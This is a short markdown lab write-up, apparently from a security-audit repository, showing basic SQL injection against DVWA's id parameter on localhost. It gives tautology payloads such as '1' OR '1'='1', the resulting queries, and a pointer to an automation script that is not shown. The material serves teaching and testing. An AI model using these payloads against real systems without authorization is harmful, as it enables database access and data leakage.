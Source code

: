 # 🛡️ Basic SQL Injection on ID Field (GET Request)

## 1. Objective

Perform a **basic SQL Injection** by manipulating a GET parameter (`id`) to retrieve information from the database without proper authorization.

---

## 2. Target

Target URL example:

```plaintext
http://127.0.0.1/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit
```

---

## 3. Manual Injection Example

Try injecting payloads such as:

```plaintext
1' OR '1'='1
```

or:

```plaintext
2' OR 1=1#
```

Result:

- The SQL query becomes **always true** (`WHERE id = '1' OR '1'='1'`), so the application displays **all users** or **unintended information**.

---

### 🖼️ Example Screenshot

Example result after successful basic SQL Injection:

```markdown
![SQL Injection Result Example](./images/sqli_basic_id_injection_result.png)
```

---

## 4. Internal Behavior (SQL Query)

Normal query:

```sql
SELECT first_name, last_name FROM users WHERE id = '1';
```

Injected query:

```sql
SELECT first_name, last_name FROM users WHERE id = '1' OR '1'='1';
```

Explanation:

- The condition is **always true**.
- The application **leaks more information** than intended.

---

## 5. Python Script to Automate the Test

We created a Python script that:

- Sends multiple payloads into the `id` parameter.
- Detects different responses based on the page content (e.g., keyword detection).

Script location:

```plaintext
audit-web/sql_injection/scripts/test_basic_sqli_id.py
```

The script uses:

- `requests`
- `BeautifulSoup` (optional)

Purpose:

- Quickly test several SQL payloads.
- Identify vulnerable behaviors automatically.





